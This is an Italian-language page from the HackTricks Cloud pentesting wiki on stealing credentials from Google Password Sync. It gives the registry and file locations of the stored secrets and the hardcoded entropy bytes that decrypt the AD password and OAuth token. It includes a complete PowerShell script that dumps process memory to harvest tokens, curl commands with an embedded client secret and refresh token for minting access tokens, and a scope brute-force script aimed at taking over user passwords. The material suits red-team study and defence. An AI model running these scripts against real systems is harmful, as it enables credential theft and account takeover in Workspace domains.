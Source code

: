 # GPS - Google Password Sync

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Informazioni di base

Questo è il binario e il servizio che Google offre per **mantenere sincronizzate le password degli utenti tra l'AD** e Workspace. Ogni volta che un utente cambia la propria password nell'AD, viene impostata su Google.

Viene installato in `C:\Program Files\Google\Password Sync` dove puoi trovare il binario `PasswordSync.exe` per configurarlo e `password_sync_service.exe` (il servizio che continuerà a funzionare).

### GPS - Configurazione

Per configurare questo binario (e servizio), è necessario **dargli accesso a un principale Super Admin in Workspace**:

* Accedi tramite **OAuth** con Google e poi **salverà un token nel registro (crittografato)**
* Disponibile solo nei Domain Controller con GUI
* Fornendo alcune **credenziali di Service Account da GCP** (file json) con permessi per **gestire gli utenti di Workspace**
* Molto cattiva idea poiché queste credenziali non scadono mai e potrebbero essere abusate
* Molto cattiva idea dare accesso a un SA su Workspace poiché il SA potrebbe essere compromesso in GCP e sarà possibile pivotare su Workspace
* Google lo richiede per i domini controllati senza GUI
* Queste credenziali sono anche memorizzate nel registro

Per quanto riguarda l'AD, è possibile indicare di utilizzare il **contesto delle applicazioni attuali, anonimo o alcune credenziali specifiche**. Se viene selezionata l'opzione delle credenziali, il **nome utente** è memorizzato all'interno di un file nel **disco** e la **password** è **crittografata** e memorizzata nel **registro**.

### GPS - Dumping password e token dal disco

{% hint style="success" %}
Nota che [**Winpeas**](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe) è in grado di rilevare **GPS**, ottenere informazioni sulla configurazione e **persino decrittografare la password e il token**.
{% endhint %}

Nel file **`C:\ProgramData\Google\Google Apps Password Sync\config.xml`** è possibile trovare parte della configurazione come il **`baseDN`** dell'AD configurato e il **`username`** le cui credenziali vengono utilizzate.

Nel registro **`HKLM\Software\Google\Google Apps Password Sync`** è possibile trovare il **refresh token crittografato** e la **password crittografata** per l'utente AD (se presente). Inoltre, se invece di un token, vengono utilizzate alcune **credenziali SA**, è anche possibile trovarle crittografate in quell'indirizzo di registro. I **valori** all'interno di questo registro sono accessibili solo dagli **Amministratori**.

La **password** crittografata (se presente) si trova all'interno della chiave **`ADPassword`** ed è crittografata utilizzando l'API **`CryptProtectData`**. Per decrittografarla, è necessario essere lo stesso utente di quello che ha configurato la sincronizzazione della password e utilizzare questa **entropia** quando si utilizza **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0xda, 0xfc, 0xb2, 0x8d, 0xa0, 0xd5, 0xa8, 0x7c, 0x88, 0x8b, 0x29, 0x51, 0x34, 0xcb, 0xae, 0xe9 };`

Il token crittografato (se presente) si trova all'interno della chiave **`AuthToken`** ed è crittografato utilizzando l'API **`CryptProtectData`**. Per decrittografarlo, è necessario essere lo stesso utente di quello che ha configurato la sincronizzazione della password e utilizzare questa **entropia** quando si utilizza **`CryptUnprotectData`**: `byte[] entropyBytes = new byte[] { 0x00, 0x14, 0x0b, 0x7e, 0x8b, 0x18, 0x8f, 0x7e, 0xc5, 0xf2, 0x2d, 0x6e, 0xdb, 0x95, 0xb8, 0x5b };`\
Inoltre, è anche codificato utilizzando base32hex con il dizionario **`0123456789abcdefghijklmnopqrstv`**.

I valori di entropia sono stati trovati utilizzando lo strumento. È stato configurato per monitorare le chiamate a **`CryptUnprotectData`** e **`CryptProtectData`** e poi lo strumento è stato utilizzato per avviare e monitorare `PasswordSync.exe` che decrittograferà la password e il token di autenticazione configurati all'inizio e lo strumento mostrerà **i valori per l'entropia utilizzata** in entrambi i casi:

<figure><img src="../../../.gitbook/assets/telegram-cloud-photo-size-4-5782633230648853886-y.jpg" alt=""><figcaption></figcaption></figure>

Nota che è anche possibile vedere i valori **decrittografati** nell'input o nell'output delle chiamate a queste API anche (nel caso in cui a un certo punto Winpeas smetta di funzionare).

Nel caso in cui la Password Sync fosse **configurata con credenziali SA**, sarà anche memorizzata in chiavi all'interno del registro **`HKLM\Software\Google\Google Apps Password Sync`**.

### GPS - Dumping token dalla memoria

Proprio come con GCPW, è possibile dumpare la memoria del processo di `PasswordSync.exe` e dei processi `password_sync_service.exe` e sarà possibile trovare refresh e access token (se sono già stati generati).\
Immagino che tu possa anche trovare le credenziali AD configurate.

<details>

<summary>Dump <code>PasswordSync.exe</code> e i processi <code>password_sync_service.exe</code> e cerca i token</summary>
```powershell
# Define paths for Procdump and Strings utilities
$procdumpPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\procdump.exe"
$stringsPath = "C:\Users\carlos-local\Downloads\SysinternalsSuite\strings.exe"
$dumpFolder = "C:\Users\Public\dumps"

# Regular expressions for tokens
$tokenRegexes = @(
"ya29\.[a-zA-Z0-9_\.\-]{50,}",
"1//[a-zA-Z0-9_\.\-]{50,}"
)

# Show EULA if it wasn't accepted yet for strings
$stringsPath

# Create a directory for the dumps if it doesn't exist
if (!(Test-Path $dumpFolder)) {
New-Item -Path $dumpFolder -ItemType Directory
}

# Get all Chrome process IDs
$processNames = @("PasswordSync", "password_sync_service")
$chromeProcesses = Get-Process | Where-Object { $processNames -contains $_.Name } | Select-Object -ExpandProperty Id

# Dump each Chrome process
foreach ($processId in $chromeProcesses) {
Write-Output "Dumping process with PID: $processId"
& $procdumpPath -accepteula -ma $processId "$dumpFolder\chrome_$processId.dmp"
}

# Extract strings and search for tokens in each dump
Get-ChildItem $dumpFolder -Filter "*.dmp" | ForEach-Object {
$dumpFile = $_.FullName
$baseName = $_.BaseName
$asciiStringsFile = "$dumpFolder\${baseName}_ascii_strings.txt"
$unicodeStringsFile = "$dumpFolder\${baseName}_unicode_strings.txt"

Write-Output "Extracting strings from $dumpFile"
& $stringsPath -accepteula -n 50 -nobanner $dumpFile > $asciiStringsFile
& $stringsPath -n 50 -nobanner -u $dumpFile > $unicodeStringsFile

$outputFiles = @($asciiStringsFile, $unicodeStringsFile)

foreach ($file in $outputFiles) {
foreach ($regex in $tokenRegexes) {

$matches = Select-String -Path $file -Pattern $regex -AllMatches

$uniqueMatches = @{}

foreach ($matchInfo in $matches) {
foreach ($match in $matchInfo.Matches) {
$matchValue = $match.Value
if (-not $uniqueMatches.ContainsKey($matchValue)) {
$uniqueMatches[$matchValue] = @{
LineNumber = $matchInfo.LineNumber
LineText   = $matchInfo.Line.Trim()
FilePath   = $matchInfo.Path
}
}
}
}

foreach ($matchValue in $uniqueMatches.Keys) {
$info = $uniqueMatches[$matchValue]
Write-Output "Match found in file '$($info.FilePath)' on line $($info.LineNumber): $($info.LineText)"
}
}

Write-Output ""
}
}
```
</details>

### GPS - Generazione di token di accesso dai token di aggiornamento

Utilizzando il token di aggiornamento, è possibile generare token di accesso utilizzandolo e l'ID client e il segreto client specificati nel seguente comando:
```bash
curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
https://www.googleapis.com/oauth2/v4/token
```
### GPS - Scopes

{% hint style="info" %}
Nota che anche avendo un refresh token, non è possibile richiedere alcuno scope per il token di accesso poiché puoi richiedere solo gli **scope supportati dall'applicazione in cui stai generando il token di accesso**.

Inoltre, il refresh token non è valido in ogni applicazione.
{% endhint %}

Per impostazione predefinita, GPS non avrà accesso come utente a ogni possibile scope OAuth, quindi utilizzando il seguente script possiamo trovare gli scope che possono essere utilizzati con il `refresh_token` per generare un `access_token`:

<details>

<summary>Bash script to brute-force scopes</summary>
```bash
curl "https://developers.google.com/identity/protocols/oauth2/scopes" | grep -oE 'https://www.googleapis.com/auth/[a-zA-Z/\._\-]*' | sort -u | while read -r scope; do
echo -ne "Testing $scope           \r"
if ! curl -s --data "client_id=812788789386-chamdrfrhd1doebsrcigpkb3subl7f6l.apps.googleusercontent.com" \
--data "client_secret=4YBz5h_U12lBHjf4JqRQoQjA" \
--data "grant_type=refresh_token" \
--data "refresh_token=1//03pJpHDWuak63CgYIARAAGAMSNwF-L9IrfLo73ERp20Un2c9KlYDznWhKJOuyXOzHM6oJaO9mqkBx79LjKOdskVrRDGgvzSCJY78" \
--data "scope=$scope" \
https://www.googleapis.com/oauth2/v4/token 2>&1 | grep -q "error_description"; then
echo ""
echo $scope
echo $scope >> /tmp/valid_scopes.txt
fi
done

echo ""
echo ""
echo "Valid scopes:"
cat /tmp/valid_scopes.txt
rm /tmp/valid_scopes.txt
```
</details>

E questo è l'output che ho ottenuto al momento della scrittura:
```
https://www.googleapis.com/auth/admin.directory.user
```
Qual è lo stesso che ottieni se non indichi alcun ambito.

{% hint style="danger" %}
Con questo ambito potresti **modificare la password di un utente esistente per aumentare i privilegi**.
{% endhint %}

{% hint style="success" %}
Impara e pratica il hacking AWS:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Impara e pratica il hacking GCP: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Supporta HackTricks</summary>

* Controlla i [**piani di abbonamento**](https://github.com/sponsors/carlospolop)!
* **Unisciti al** 💬 [**gruppo Discord**](https://discord.gg/hRep4RUj7f) o al [**gruppo telegram**](https://t.me/peass) o **seguici** su **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Condividi trucchi di hacking inviando PR ai** [**HackTricks**](https://github.com/carlospolop/hacktricks) e [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) repos su github.

</details>
{% endhint %}
